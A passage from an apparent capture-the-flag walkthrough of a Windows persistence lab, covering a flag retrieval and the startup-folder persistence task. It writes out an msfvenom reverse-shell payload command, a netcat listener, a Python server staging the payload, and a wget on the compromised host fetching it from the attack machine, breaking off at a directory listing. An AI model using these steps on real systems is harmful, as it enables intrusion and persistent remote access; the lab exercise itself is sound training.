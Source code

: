 ```Bash
```
7. `C:\flags\flag9.exe` from our reverse shell to run the **flag9.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag9.exe
C:\flags\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```


# Logon Triggered Persistence

#
## Startup Folder

1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine to use Metasplout's msfvenom to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for inbound connections
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow the compromised Windows machine to connect back to our attack machine and download the reverse shell payload that we just created
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine to launch PowerShell
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine to download our payload from our attack machine and save it under a different name 
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine display the files and directories that are in our current working directory to verify if the payload has been successfully downloaded from our attack machine, which it has
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


```